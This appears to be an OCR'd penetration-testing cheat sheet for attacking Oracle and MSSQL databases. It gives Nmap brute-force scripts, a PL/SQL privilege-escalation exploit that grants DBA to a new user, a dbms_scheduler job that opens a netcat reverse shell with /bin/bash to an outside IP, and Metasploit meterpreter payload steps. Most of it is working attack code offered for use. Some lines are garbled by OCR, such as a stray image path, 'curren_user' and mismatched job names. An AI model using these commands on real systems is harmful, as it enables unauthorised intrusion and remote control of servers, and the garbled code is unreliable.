 Identify default accounts within oracle db using NMAP NSE scripts:
nmap --script=oracle-sid-brute 
nmap --script=oracle-brute 
Login using the identified weak account (assuming you find one).

How to identify the current privilege level for an oracle user:
SQL> select * from session_privs; 

SQL> CREATE OR REPLACE FUNCTION GETDBA(FOO varchar) return varchar deterministic authid 
curren_user is 
pragma autonomous_transaction; 
begin 
execute immediate 'grant dba to user1 identified by pass1';
commit;
return 'FOO';
end;
Oracle priv esc and obtain DBA access:
Run netcat: netcat -nvlp 443code>

SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));
Run the exploit with a select query:
SQL> Select * from session_privs; 
You should have a DBA user with creds user1 and pass1.

Verify you have DBA privileges by re-running the first command again.

Remove the exploit using:
drop index exploit_1337; 
Get Oracle Reverse os-shell:
begin
dbms_scheduler.create_job( job_name    => 'MEH1337',job_type    =>
    'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4,start_date =>
    SYSTIMESTAMP,enabled    => FALSE,auto_drop => TRUE); 
dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET-IP');
dbms_scheduler.set_job_argument_value('rev_shell', 2, '443');
dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e');
dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash');
dbms_scheduler.enable('rev_shell'); 
end; 
MSSQL
Enumeration / Discovery:

Nmap:

nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
Metasploit:

msf > use auxiliary/scanner/mssql/mssql_ping
Use MS SQL Servers Browse For More
Try using "Browse for More" via MS SQL Server Management Studio

Bruteforce MSSQL Login
msf > use auxiliary/admin/mssql/mssql_enum
Metasploit MSSQL Shell
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
Network
Plink.exe Tunnel
PuTTY Link tunnel
